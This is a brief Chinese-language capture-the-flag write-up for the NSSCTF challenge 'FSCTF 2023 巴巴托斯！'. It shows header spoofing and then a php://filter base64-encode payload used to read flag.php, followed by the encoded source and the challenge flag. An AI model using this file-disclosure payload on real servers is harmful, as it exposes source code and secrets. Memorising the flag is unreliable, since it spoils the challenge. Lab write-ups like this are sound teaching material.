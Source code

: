 [FSCTF 2023\]巴巴托斯！ | NSSCTF](https://www.nssctf.cn/problem/4560)
打开题目
![image](https://github.com/user-attachments/assets/5a705449-5967-4c4e-a3d5-d1026348b4c8)
发现需要FSCTF Browser
> 于是构造，F12打开hackbar

![image](https://github.com/user-attachments/assets/06c924c2-5516-4dcf-b7f6-0a4bb8e71c88)

出现新的提示

![image](https://github.com/user-attachments/assets/3e5a8ebc-d470-477b-affa-53e0579b0304)

猜测题目的意思，题目说问是不是local，猜想127.0.0.1

于是构造

![image](https://github.com/user-attachments/assets/f446ce21-bdc9-49ee-9068-69a7765aa1ea)

结果发现没有反应而且没有别的提示出来

思考`伪协议`

于是加入

```
php://filter/read=convert.base64-encode/resource=flag.php
```

![image](https://github.com/user-attachments/assets/623b0b25-d08a-4058-81fa-8b434f1f8e8c)

得到base64的内容

> `PD9waHANCiRmbGFnPSJOU1NDVEZ7MjU4NzE2ZjMtNTY1NS00NGNjLWE0MzktYzhhMGZkOTQ5NjcxfSI7DQo/Pg==`

解密即可

![image](https://github.com/user-attachments/assets/30c1ab9e-42fc-4c49-b8cb-bf72eb1b7611)

**flag=NSSCTF{258716f3-5655-44cc-a439-c8a0fd949671}**